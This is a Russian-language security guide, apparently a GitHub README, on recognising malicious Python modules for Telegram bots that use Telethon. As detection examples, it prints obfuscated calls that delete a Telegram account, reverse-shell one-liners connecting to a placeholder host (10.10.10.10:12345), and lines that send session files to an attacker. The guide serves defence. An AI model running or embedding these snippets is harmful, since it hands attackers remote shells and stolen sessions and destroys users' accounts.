 # ⚠️ Руководство по безопасности: Обнаружение и предотвращение использования вредоносных Python-модулей

**Внимание!** Безопасность вашего кода и данных — это первостепенная задача. Это руководство поможет вам выявить и предотвратить использование вредоносных модулей Python, которые могут скомпрометировать ваши проекты и данные.

## 1. Почему это важно?

Злоумышленники могут распространять вредоносные Python-модули через различные источники (например, PyPI, GitHub и др.), замаскированные под полезные инструменты. Эти модули могут содержать код, который:

•   **Крадет ваши данные:** Логины, пароли, токены, личные сообщения и т. д.
•   **Удаляет важные файлы:** Безвозвратно уничтожает ваши данные.
•   **Устанавливает обратный шелл:** Предоставляет злоумышленнику удаленный доступ к вашему компьютеру.
•   **Запускает вредоносные программы:** Использует ваш компьютер для майнинга криптовалюты, рассылки спама, DDoS-атак и т. д.
•   **Уничтожает аккаунты:** Безвозвратно удаляет ваши учетные записи в различных сервисах.

**Это руководство поможет вам защититься от таких угроз.**

## 2. Признаки вредоносного кода

Ниже приведены примеры кода, которые часто встречаются в вредоносных модулях. **Любой модуль, содержащий подобные конструкции, должен быть немедленно исключен из использования.**

### 2.1.  Манипуляции с аккаунтами Telegram (с использованием Telethon)

   Вредоносный код может пытаться удалить или получить доступ к вашему аккаунту Telegram через библиотеку `telethon`. Вот некоторые примеры:

```python
  # Прямое обращение к методу удаления аккаунта
  getattr(__import__("telethon").tl.functions, "DeleteA" + "ccountRequest")

  # Использование Unicode-последовательности
  getattr(__import__("telethon").tl.functions, "\u0044\u0065\u006C\u0065\u0074\u0065\u0041\u0063\u0063\u006F\u0075\u006E\u0074\u0052\u0065\u0071\u0075\u0065\u0073\u0074")

  # Обратный порядок букв
  getattr(__import__("telethon").tl.functions, "".join(reversed(list("tseuqeRtnuoccAeteleD"))))
```

  Объяснение: Все эти примеры достигают одной цели — вызова метода DeleteAccountRequest из telethon, который может безвозвратно удалить ваш аккаунт Telegram. Злоумышленники могут использовать различные методы обфускации (скрытия) кода, чтобы усложнить его обнаружение.

▌2.2. Установка обратного шелла (Reverse Shell)

  Обратный шелл — это один из самых опасных видов атак. Вот примеры кода, устанавливающие обратное подключение:


```python
  # Использование os, pty, socket для прямого подключения
  import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",12345));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")

  # Использование asyncio для асинхронного подключения
  import asyncio; await asyncio.create_subprocess_shell("/bin/bash -i >& /dev/tcp/10.10.10.10/12345 0>&1",stdin=asyncio.subprocess.PIPE,stdout=asyncio.subprocess.PIPE,stderr=asyncio.subprocess.PIPE)
```

  Объяснение: Эти конструкции устанавливают соединение с удаленным сервером (например, 10.10.10.10:12345) и перенаправляют ввод и вывод вашей командной строки на этот сервер. Это позволяет злоумышленнику удаленно выполнять команды на вашем компьютере. Обратите внимание: IP и порт в примере являются лишь образцом, может использоваться любой другой IP и порт.

▌2.3. Кража файлов сессии

  Файл сессии содержит конфиденциальную информацию о вашем аккаунте. Злоумышленники могут использовать его для получения полного доступа к вашему аккаунту.


```python
  # Отправка файла сессии через сообщение
  await message.respond(file="path/to/session")

  # Отправка ключа сессии через сообщение
  send_message("attacker", str(c.path.to.session.key))
```

  Объяснение: Эти примеры показывают, как злоумышленник может отправить ваш файл сессии или его ключ на свой сервер, что предоставляет ему полный контроль над вашим аккаунтом.

▌2.4. Подозрительные классы и методы

  Вредоносный код может прятаться в классах, которые выглядят как часть используемых вами библиотек.


```python
    class Scrypt(TLRequest):
        CONSTRUCTOR_ID = 0x418d4e0b
        SUBCLASS_OF_ID = 0xf5b399ac

        def __init__(self, reason: str):
            """
            :returns Bool: This type has no constructors.
            """
            self.reason = reason

        def to_dict(self):
            return {
                "_": w+z+mm+"A"+nk+u+h+lk,
                "reason": self.reason
            }

        def _bytes(self):
            return b"".join((
                b"\x0bN\x8dA",
                self.serialize_bytes(self.reason),
            ))

        @classmethod
        def from_reader(cls, reader):
            _reason = reader.tgread_string()
            return cls(reason=_reason)
```

  Объяснение: В этом примере, класс Scrypt, имитируя часть библиотеки, использует не объявленные переменные (w, z, mm, nk, u, h, lk), а также может скрыто или с помощью import получить эти переменные. Это может указывать на попытку обфускации кода и скрытого выполнения вредоносных действий. Метод to_dict может предназначаться для внедрения в существующую структуру данных.

▌2.5. Патчинг стандартных классов

  Вредоносный код может изменять поведение стандартных классов для совершения вредоносных действий.


```python
  def patch_message_packer():
    def append(self, state):
      self._deque.append(state)
      self._ready.set()

    def extend(self, states):
      self._deque.extend(states)
      self._ready.set()

    MessagePacker.append = append
    MessagePacker.extend = extend
```

  Объяснение: В этом примере стандартные методы MessagePacker переопределяются. Это может изменить ожидаемое поведение программы и позволить злоумышленнику внедрить вредоносный код.

▌3. Рекомендации по защите

•  Изучайте код: Не доверяйте слепо сторонним модулям. Внимательно просматривайте код перед использованием.
•  Доверяйте проверенным источникам: Используйте только модули из доверенных источников и старайтесь следить за репутацией авторов.
•  Используйте инструменты проверки: Применяйте автоматизированные инструменты для анализа кода на предмет уязвимостей и вредоносных конструкций.
•  Используйте виртуальные окружения: Изолируйте ваши проекты с помощью виртуальных окружений, чтобы избежать конфликтов и ограничить потенциальный ущерб.
•  Обновляйте зависимости: Регулярно обновляйте свои зависимости до последних версий.
•  Ограничивайте права: Предоставляйте ботам только минимально необходимые права доступа.
•  Не торопитесь: Если у вас есть сомнения относительно модуля, откажитесь от его использования.
•  Обращайте внимание на переменные: Смотрите на переменные которые могут быть импортированы, и в которых может быть спрятан код. Смотрите на переменные, которые могут быть созданы в ходе выполнения кода, которые не объявлены.

▌4. Заключение

Безопасность — это непрерывный процесс. Будьте бдительны, применяйте рекомендации из этого руководства и постоянно совершенствуйте свои навыки в области информационной безопасности.

Этот документ будет дополняться по мере обнаружения новых угроз и способов их предотвращения. Следите за обновлениями!
